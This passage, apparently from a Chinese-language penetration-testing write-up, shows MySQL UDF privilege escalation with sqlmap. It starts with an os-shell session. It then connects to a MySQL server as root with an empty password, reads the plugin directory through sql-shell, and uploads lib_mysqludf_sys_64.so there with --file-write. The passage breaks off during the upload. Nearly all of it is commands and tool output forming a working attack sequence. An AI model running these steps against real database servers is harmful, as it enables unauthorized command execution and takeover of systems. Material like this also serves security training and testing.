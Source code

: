 ```python
[11:53:50] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a]

No output
os-shell>
```

半自动化

获取plugin目录

```
python3 sqlmap.py -d "mysql://root:@172.20.10.9:3306/mysql" --sql-shell
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.2.24#dev}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:21:33 /2020-02-10/

[13:21:34] [INFO] connection to MySQL server '172.20.10.9:3306' established
[13:21:34] [INFO] testing MySQL
[13:21:34] [INFO] resumed: [['1']]...
[13:21:34] [INFO] confirming MySQL
[13:21:34] [INFO] resumed: [['1']]...
[13:21:34] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:21:34] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
sql-shell> select @@plugin_dir;
[13:22:06] [INFO] fetching SQL SELECT statement query output: 'select @@plugin_dir'
select @@plugin_dir [1]:
[*] /usr/lib/x86_64-linux-gnu/mariadb18/plugin/

sql-shell>
```

得到plugin目录为/usr/lib/x86_64-linux-gnu/mariadb18/plugin/。

上传lib_mysqludf_sys到plugin目录

```
python3 sqlmap.py -d "mysql://root:@172.20.10.9:3306/mysql" --file-write=/Users/simon/Downloads/lib_mysqludf_sys_64.so --file-dest=/usr/lib/x86_64-linux-gnu/mariadb18/plugin/lib_mysqludf_sys_64.so
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.2.24#dev}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:28:35 /2020-02-10/

[13:28:36] [INFO] connection to MySQL server '172.20.10.9:3306' established
[13:28:36] [INFO] testing MySQL
[13:28:36] [INFO] resumed: [['1']]...
```